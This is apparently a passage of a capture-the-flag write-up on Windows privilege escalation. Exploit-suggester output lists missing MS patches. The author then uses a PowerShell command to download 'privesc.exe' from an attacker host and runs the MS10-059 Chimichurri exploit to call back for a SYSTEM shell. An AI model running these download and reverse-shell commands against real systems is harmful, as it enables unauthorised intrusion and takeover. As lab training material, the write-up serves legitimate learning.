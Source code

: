 ```bash
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical

```

Trying out each exploit to check if any work, the MS10-059 worked. To upload the executable, I had to traverse to a directory which allowed creation of a file. 

```cmd

C:\Users\merlin\AppData\Local\Temp                                             

```

Now let's modify the config file to upload the file and save it to the above mentioned directory.

```cmd

PS C:\Users\merlin\AppData\Local\Temp> (New-Object Net.WebClient).downloadfile('http://10.10.14.2:8000/privesc.exe', 'C:\Users\merlin\AppData\Local\Temp\privesc.exe')

PS C:\Users\merlin\AppData\Local\Temp> dir


    Directory: C:\Users\merlin\AppData\Local\Temp


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
d----         5/30/2018  12:24 AM            HWI29DD.tmp.dir                   
d----         5/30/2018  12:22 AM            Low                               
d----         5/30/2018   4:42 AM            vmware-merlin                     
d----         5/30/2018  12:22 AM            {2200E27C-064E-4F0D-A6B3-4A757BE0C
                                             BDF}~setup                        
-a---         5/30/2018   5:49 AM      31832 merlin.bmp                        
-a---         3/27/2021   7:43 PM     784384 privesc.exe                       
-a---         5/30/2018  12:13 AM      79848 storePwd.exe                      
-a---         5/30/2018  12:13 AM         24 storePwd.ini                      
-a---         5/30/2018  12:13 AM        555 unattend.cmd                      
-a---         5/30/2018  12:13 AM     608744 upgrader.exe                      
-a---         5/30/2018  12:33 AM     194894 vminst.log                        
-a---         5/30/2018  12:24 AM    3292920 vmmsi.log                         


PS C:\Users\merlin\AppData\Local\Temp> ./privesc.exe
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Usage: Chimichurri.exe ipaddress port <BR>
PS C:\Users\merlin\AppData\Local\Temp> ./privesc.exe 10.10.14.2 4241


```